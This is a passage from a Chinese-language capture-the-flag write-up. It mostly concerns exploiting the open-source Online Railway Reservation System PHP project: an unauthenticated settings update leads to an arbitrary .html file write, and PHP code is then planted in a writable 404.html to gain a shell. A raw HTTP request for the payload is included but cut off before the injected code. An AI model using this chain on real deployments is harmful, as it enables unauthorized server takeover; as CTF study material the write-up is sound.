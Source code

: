 ![image-20230201113633210](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202302011136288.png)

反弹 shell 然后 `/readflag` 即可

## orrs

源码下载: [https://www.sourcecodester.com/php/15121/online-railway-reservation-system-phpoop-project-free-source-code.html](https://www.sourcecodester.com/php/15121/online-railway-reservation-system-phpoop-project-free-source-code.html)

/classes/SystemSettings.php

后台未授权修改系统设置

![image-20230201115006161](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202302011150273.png)

`file_put_contents` 处任意写文件, 但是限制后缀只能是 `.html`

然后发现 about\_us.php 和 home.php 分别包含了某个 html 文件

![image-20230201115232124](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202302011152226.png)

考虑将 php 代码写入 about_us.html 或 welcome.html, 然后访问这两个页面 getshell

然后发现题目服务器对这两个 html 没有写权限, 于是换个思路

利用 index.php 包含的 404.html

![image-20230201115336163](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202302011153267.png)

测试发现 404.html 有写权限

最终 payload

```
POST /classes/SystemSettings.php?f=update_settings HTTP/1.1
Host: 43.137.18.183:32961
Content-Length: 1543
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.0.0 Safari/537.36 Edg/109.0.1518.70
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary5emL5TBetpBt96A2
Origin: http://43.137.18.183:32959
Referer: http://43.137.18.183:32959/admin/?page=system_info
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: PHPSESSID=tlptqt5rs3imkk231qvakarl35
Connection: close

------WebKitFormBoundary5emL5TBetpBt96A2
Content-Disposition: form-data; name="name"

Online Railway Reservation System - PHP
------WebKitFormBoundary5emL5TBetpBt96A2
Content-Disposition: form-data; name="short_name"

ORRS- PHP
------WebKitFormBoundary5emL5TBetpBt96A2
Content-Disposition: form-data; name="content[welcome]"

<p style="margin-right: 0px; margin-bottom: 15px; padding: 0px;">Welcome to N1CTF Juinor:)</p>
------WebKitFormBoundary5emL5TBetpBt96A2
Content-Disposition: form-data; name="files"; filename=""
Content-Type: application/octet-stream


```